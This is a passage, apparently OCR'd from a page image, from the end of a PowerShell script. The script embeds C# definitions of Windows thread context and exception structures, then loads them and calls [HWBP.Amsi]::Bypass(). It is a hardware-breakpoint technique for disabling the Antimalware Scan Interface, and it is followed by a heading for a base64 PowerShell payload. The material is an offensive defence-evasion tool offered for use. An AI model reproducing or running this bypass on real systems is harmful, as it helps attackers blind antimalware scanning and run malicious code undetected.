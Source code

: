 ```powershell
			
			public ulong Dr0;
			public ulong Dr1;
			public ulong Dr2;
			public ulong Dr3;
			public ulong Dr6;
			public ulong Dr7;
			
			public ulong Rax;
			public ulong Rcx;
			public ulong Rdx;
			public ulong Rbx;
			public ulong Rsp;
			public ulong Rbp;
			public ulong Rsi;
			public ulong Rdi;
			public ulong R8;
			public ulong R9;
			public ulong R10;
			public ulong R11;
			public ulong R12;
			public ulong R13;
			public ulong R14;
			public ulong R15;
			public ulong Rip;
			
			public XSAVE_FORMAT64 DUMMYUNIONNAME;
			
			[MarshalAs(UnmanagedType.ByValArray, SizeConst = 26)]
			public M128A[] VectorRegister;
			public ulong VectorControl;
			
			public ulong DebugControl;
			public ulong LastBranchToRip;
			public ulong LastBranchFromRip;
			public ulong LastExceptionToRip;
			public ulong LastExceptionFromRip;
		}
		
		[StructLayout(LayoutKind.Sequential)]
		public struct EXCEPTION_RECORD {
			public uint ExceptionCode;
			public uint ExceptionFlags;
			public IntPtr ExceptionRecord;
			public IntPtr ExceptionAddress;
			public uint NumberParameters;
			[MarshalAs(UnmanagedType.ByValArray, SizeConst = 15, ArraySubType = UnmanagedType.U4)] public uint[] ExceptionInformation;
		}
		
		[StructLayout(LayoutKind.Sequential)]
		public struct EXCEPTION_POINTERS {
			public IntPtr pExceptionRecord;
			public IntPtr pContextRecord;
		}
	}
}
"@

Add-Type -TypeDefinition $HWBP
[HWBP.Amsi]::Bypass()
```
##### PowerShell Payload (base64)